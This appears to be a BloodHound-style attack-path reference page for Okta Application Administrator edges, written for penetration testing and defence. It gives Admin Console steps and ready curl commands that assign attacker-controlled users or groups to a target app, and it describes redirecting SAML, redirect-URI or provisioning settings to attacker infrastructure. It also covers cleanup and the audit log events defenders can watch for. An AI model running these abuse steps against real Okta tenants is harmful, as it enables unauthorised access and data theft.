

## General Information

The traversable Okta_AppAdmin edges represent Application Administrator role assignments. Application Administrators can manage application configurations, user assignments, and provisioning settings for their assigned applications.



## Abuse Info

An attacker who controls the source principal can administer the destination application. Application Administrator access commonly allows assignment changes, application configuration changes, provisioning changes, and client credential changes for the scoped app. If the source is a group, compromise any member of that group first. If the source is an application, authenticate with that application's client credentials or private key and request a management API access token with the scopes granted to the admin role assignment.

Using the Admin Console:

1. Authenticate to Okta as the source user, as a member of the source group, or as the source service application.
2. Open **Applications** > **Applications** in the Admin Console and select the destination application.
3. On the application's assignments view, assign an attacker-controlled Okta user or group to the destination application. For SAML and OIDC apps, this usually grants the added user the ability to launch the downstream application through Okta.
4. If the app has app-specific profile fields, set the assignment values needed to receive the desired downstream role or entitlement.
5. Review sign-on and provisioning settings. If the role and app type permit it, change redirect URIs, SAML ACS URLs, SAML attribute statements, provisioning credentials, group assignments, or profile mappings to route access or data to attacker-controlled infrastructure.
6. Sign in as the attacker-controlled assigned user and launch the application from the Okta dashboard. For provisioning abuse, trigger an import, push, or profile update so the modified configuration is applied downstream.

When the destination is an API service integration or another service application, use the App Admin privilege to rotate or add credentials where permitted, then authenticate as that application and continue along any `Okta_SecretOf`, `Okta_KeyOf`, `Okta_ReadClientSecret`, or admin-role edges from that application.

Using the Okta API:

1. Set the Okta org URL, a token for the source principal, the destination app ID, and the controlled user or group ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_APP_ID="0oa..."
    export CONTROLLED_USER_ID="00u..."
    export CONTROLLED_GROUP_ID="00g..."
    ```

2. Assign a controlled user directly to the destination app.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users" \
      -d "{\"id\":\"$CONTROLLED_USER_ID\",\"scope\":\"USER\"}"
    ```

3. Or assign a controlled group to the app so every member receives app access.

    ```bash
    curl -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/groups/$CONTROLLED_GROUP_ID" \
      -d '{}'
    ```

4. Verify the assignment.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID) | [.id, .scope, .status] | @tsv'
    ```

5. If abusing configuration instead of assignment, retrieve the app with `GET /api/v1/apps/{appId}`, modify only the required sign-on, credential, mapping, or provisioning setting, then update the app with the Apps API. Preserve the original response so cleanup can restore the exact previous values.

## Cleanup after Abuse

Cleanup removes temporary access to the destination application, restores modified sign-on and provisioning settings, and rotates credentials added or exposed while abusing application administration.

Cleanup using Admin Console:

1. Open **Applications** > **Applications** and select the destination application.
2. Remove attacker-controlled users or groups from the **Assignments** tab.
3. Restore sign-on settings, redirect URIs, SAML settings, provisioning settings, profile mappings, and credentials that were changed.
4. Deactivate or rotate temporary client secrets, private keys, and provisioning credentials.
5. Verify the temporary principal can no longer launch or authenticate to the downstream application.

Cleanup using API:

1. Remove the temporary user assignment.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$CONTROLLED_USER_ID"
    ```

2. Remove the temporary group assignment.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/groups/$CONTROLLED_GROUP_ID"
    ```

3. Restore the saved app configuration with the Apps API and verify the settings match the pre-abuse copy.
4. Rotate or deactivate temporary app credentials with the appropriate app credential endpoint.
5. Confirm the controlled user or group no longer appears in application assignments.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID)'
    ```

## Opsec Considerations

Application assignment changes, group-to-app assignment changes, app configuration updates, credential rotations, and provisioning changes are recorded in the Okta System Log. Relevant event types include `application.user_membership.add`, `application.user_membership.remove`, `application.user_membership.update`, `group.application_assignment.add`, `group.application_assignment.remove`, `group.application_assignment.update`, `application.lifecycle.update`, `app.oauth2.credentials.lifecycle.create`, `app.oauth2.credentials.lifecycle.activate`, `app.oauth2.credentials.lifecycle.deactivate`, and `app.oauth2.credentials.lifecycle.delete`.

Changes to SAML/OIDC settings, redirect URIs, provisioning credentials, profile mappings, or assignments for privileged applications are high-signal defender events. The API path leaves the caller, client, source IP, request URI, destination app, and assigned user or group in Okta audit data.

## References

- [Okta Application administrators](https://help.okta.com/en-us/content/topics/security/administrators-app-admin.htm)
- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta Application Groups API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationGroups/)
- [Okta Applications API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Application/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [SpecterOps: Discovering Unexpected Okta Attack Paths with BloodHound](https://specterops.io/blog/2026/03/23/discovering-unexpected-okta-attack-paths-with-bloodhound/)
- [Eli Guy: Attack Techniques in Okta - Part 2 - Okta RBAC Attacks](https://xmcyber.com/blog/okta-rbac-attacks/)
